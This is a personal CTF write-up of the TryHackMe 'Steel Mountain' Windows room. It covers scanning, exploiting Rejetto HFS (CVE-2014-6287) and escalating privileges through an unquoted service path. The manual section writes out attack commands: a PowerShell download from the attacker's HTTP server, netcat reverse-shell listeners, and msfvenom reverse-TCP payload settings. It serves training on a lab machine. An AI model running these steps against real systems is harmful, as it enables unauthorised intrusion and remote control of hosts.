# This is a writeup for the CTF: Steel Mountain, windows from TryHackMe.   
Name: Alexander Spiesberger    
Date: 26/01/2021   
Contact: alex.spiesberger@gmail.com  
RHOST=10.10.46.41    



So, as the list times, we start with scanning with nmap, gobuster and nikto.  



During the scan we can go check out the site, we can see the logo with a picture of their employee of the month.  
When inspecting the page we can see the picture source code, and we can aassume that the name in the picture is the employee.  
We can with this, respond to the first question: **Who is the employee of the month?**
   
We can then take a look at the finished nmap scan.  
We can find another web server running and with this respond to the next question: **Scan the machine with nmap. What is the other port running a web server on?**

We can directly also respond to the next question with a quick search: **Take a look at the other web server. What file server is running?**



And the CVE for the next question also:





We will now try to use metasploit:



We can now put the options that we need and run it:



Yay! It worked, now we just have to use it:



We can then answer the final question of the second task: **Use Metasploit to get an initial shell. What is the user flag?**



We then have to upload a tool to help us escalate privileges.  
I downloaded winPEAS and also accesschk:




We can then see that the service "AdvancedSystemCareService9" is exploitable, just use msfvenom: 

You name it Advanced.exe so when it will run, the service normally sees "Advanced" and there is a space before "SystemCare" So we will put the msfvenom output that we name "Advanced.exe" in this file, we just download it after starting a server with:

Now you have to start and stop the service with:
sc start <service>
sc stop <service>
the service here is "AdvancedSystemCareService9"

Don't forget to put a nc listener before restarting the service and then let the magic happen:

MANUAL:

launching nmap: nmap -sC -sV -A -p- -oN initial.nmap $RHOST
gobuster: gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$RHOST -x php,html,txt,js,css,cgi,sh,py

Found rejetto vuln -> CVE2014-6287
DL nc binary: https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe

In the Exploiit file change the ip + local port I did (4444)

then launch a server (python3 -m http.server 80) Here on port 80.

then launch 2 times the exploit: python <exploit> <IP> <PORT(8080)>

First it will pull the binary, then launch it again with a listener (nc -lvnp 4444) and you now have a remote shell.
We now pull winPEAS with powershell:
launch server port 80 then pull with powershell:
powershell -c wget "http://<IP>:80/winPEASany.exe" -outfile "winPEAS.exe"

we now can run it -> winPEAS.exe

for the question: powershell -c get-service

We now need to exploit like previously with msfvenom, we could build it with pentest.ws and taking info with 
"powershell -c systeminfo"
But I will here take the previous msfvenom done with metasploit.
If you want to do it with pentest.ws:
payload:windows/reverse_tcp
LHOST: add your vpn IP
LPORT: Port you want to listen on (I put 443)
encoder: x86/shikata_ga_nai
extension: -f exe
output file: -o ASCService.exe

Then it is like before, pull it, in the IObit folder, name it Advanced.exe and stop/start the service with a netcat listening:

![same before]
![same before]

hope you enjoyed, contact

